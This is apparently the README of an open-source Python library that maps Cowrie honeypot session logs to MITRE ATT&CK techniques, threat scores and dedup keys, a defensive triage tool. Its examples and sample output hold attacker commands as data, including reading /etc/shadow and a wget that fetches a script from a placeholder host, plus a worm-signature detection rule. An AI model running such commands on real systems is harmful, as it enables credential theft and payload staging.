

# Honeypot → MITRE

Turn raw [Cowrie](https://github.com/cowrie/cowrie) SSH/Telnet honeypot logs into
**structured MITRE ATT&CK mappings, a threat score, and a replay-dedup key** — with
zero infrastructure.

## The problem it solves

A busy honeypot produces a firehose of JSON events. What you usually want out the
other end is simple: *for each session, what did the attacker do, how dangerous was
it, and is this just the same worm hitting me from 500 different IPs?* This library
answers exactly that, deterministically, from the raw logs:

- **structured ATT&CK** — each command mapped to MITRE tactics/techniques;
- **a score** — a single 0–100 deterministic threat number per session;
- **replay dedup** — an order-independent signature that collapses the same payload
  arriving from a botnet's worth of IPs into one incident.

No database, no Redis, no message queue, no web framework, no LLM required. The
default path is pure Python standard library.

## Install

```bash
pip install honeypot-mitre
# optional LLM enrichment (not required for anything below):
pip install "honeypot-mitre[llm]"
```

Requires Python ≥ 3.10.

## Quickstart

```python
from honeypot_mitre import parse_sessions, analyze_session

for session in parse_sessions("cowrie.json"):
    record = analyze_session(session)
    print(record["session_id"], record["score"], record["techniques"])
```

Or call the building blocks directly:

```python
from honeypot_mitre import map_techniques, score_session, classify_actor, dedup_key

cmds = ["uname -a", "whoami", "cat /etc/shadow"]
map_techniques(cmds)          # -> {'dominant_stage': 'credential_access', 'techniques_used': [...], ...}
score_session(cmds)           # -> int 0..100
classify_actor(cmds, duration=3.0)   # -> {'actor_label': 'botnet_node', ...}
dedup_key(cmds)               # -> 16-char order-independent signature
```

See [`examples/quickstart.py`](examples/quickstart.py) and
[`examples/sample_cowrie.json`](examples/sample_cowrie.json).

## CLI

```bash
python -m honeypot_mitre examples/sample_cowrie.json
# or pipe from stdin:
cat cowrie.json | python -m honeypot_mitre -
# installed console script:
honeypot-mitre examples/sample_cowrie.json --pretty --min-score 50
```

Emits one JSON record per session:

```json
{
  "session_id": "a1b2c3d4",
  "src_ip": "203.0.113.10",
  "commands": ["uname -a", "whoami", "cat /etc/shadow", "wget http://example.invalid/x.sh -O /tmp/x.sh"],
  "techniques": ["T1016", "T1033", "T1057", "T1082", "T1592", "T1595"],
  "dominant_stage": "reconnaissance",
  "progression": ["reconnaissance"],
  "confidence": 0.85,
  "score": 31,
  "actor_label": "automated_scanner",
  "campaign_indicators": [],
  "dedup_key": "905830e685fbbb20"
}
```

## How it works



*One Cowrie session, end to end: raw JSON events are parsed into a session, mapped to
MITRE ATT&CK, scored, actor-classified, and reduced to an order-independent replay-dedup
key — all deterministically, from the standard library alone. The values shown are the
real output of [`examples/sample_cowrie.json`](examples/sample_cowrie.json).*

### Mapping (`map_techniques`)
Each command line is lower-cased and tested against a hand-curated table of
substrings, one per kill-chain stage (`reconnaissance`, `persistence`,
`privilege_escalation`, `defense_evasion`, `credential_access`, `lateral_movement`,
`collection`, `exfiltration`, `command_and_control`, `impact`). The first matching
stage wins; its techniques are accumulated. The *dominant stage* is the most-recently
reached known stage in the session.

### Scoring (`score_session`)
A single deterministic formula, capped at 100:

```
score = base_for_stage + (commands * 2) + (distinct_techniques * 3)
```

`base_for_stage` is the per-stage base for the dominant stage:

| stage | base | | stage | base |
|---|---|---|---|---|
| impact | 40 | | lateral_movement | 20 |
| exfiltration | 35 | | defense_evasion | 15 |
| credential_access | 30 | | persistence | 15 |
| command_and_control | 30 | | collection | 10 |
| privilege_escalation | 25 | | reconnaissance | 5 |

Unknown / unmatched stage defaults to a base of `5`.

### Actor overrides (`classify_actor`)
A coarse volume-based guess (`human_operator` if >5 commands, else
`automated_scanner`) is corrected by two deterministic rules. **These change the
label only, never the score:**

1. **Outlaw / Dota worm** — a session whose commands contain both `mdrfckr` and
   `authorized_keys` is tagged `botnet_node` + `outlaw_mdrfckr_worm`.
2. **Sub-15s scripted session** — if it ran ≥1 command and opened-and-closed in under
   15 seconds, any `human_operator` guess is demoted to `botnet_node`.

### Dedup (`dedup_key`, `InMemoryDedupStore`)
The dedup key is `sha256("\n".join(sorted(commands)))[:16]` — **order-independent**, so
the same payload in any sequence collapses to the same key. `InMemoryDedupStore`
groups every source IP under a signature and reports the first occurrence within a
15-minute TTL window as the one alert to fire; later identical payloads are
suppressed. A `RedisDedupStore` adapter is provided for cross-process sharing (the
Redis client is injected — nothing connects on import).

## Optional LLM enrichment

The deterministic path needs no LLM. If you want extra narrative enrichment, install
the `[llm]` extra and pass an `Analyzer`:

```python
from honeypot_mitre import analyze_session, AnthropicAnalyzer

record = analyze_session(session, analyzer=AnthropicAnalyzer(api_key="..."))
record["llm"]  # free-form model output, never affects the deterministic score
```

You supply your own key; this package embeds none.

## Honesty caveats

This is a **rules engine, not a classifier.** Be clear-eyed about what that means:

- **Substring matching is crude.** Mapping is literal case-insensitive substring
  containment, so it both over-matches (`cat` matches `cat /etc/shadow` and benign
  `cat README`) and under-matches anything obfuscated, base64-piped, or renamed.
- **Confidence is hardcoded, not learned.** Every match carries a fixed `0.85`
  confidence — it is a label, not a calibrated probability. There is no training data
  and no model behind the deterministic path.
- **The score is heuristic.** The weights are reasonable defaults, not validated
  against a ground-truth corpus. Treat it as a triage signal, not a verdict.
- **Actor labels are coarse.** Two timing/signature heuristics catch common cases;
  they will misclassify clever or unusual sessions.

It is genuinely useful for triage, dashboards, and replay collapsing — just don't
mistake it for ML.

## License

MIT — see [LICENSE](LICENSE). Copyright (c) 2026 niffy_hunt.

---

Part of the WraithWall project — https://wraithwall.online · by niffy_hunt
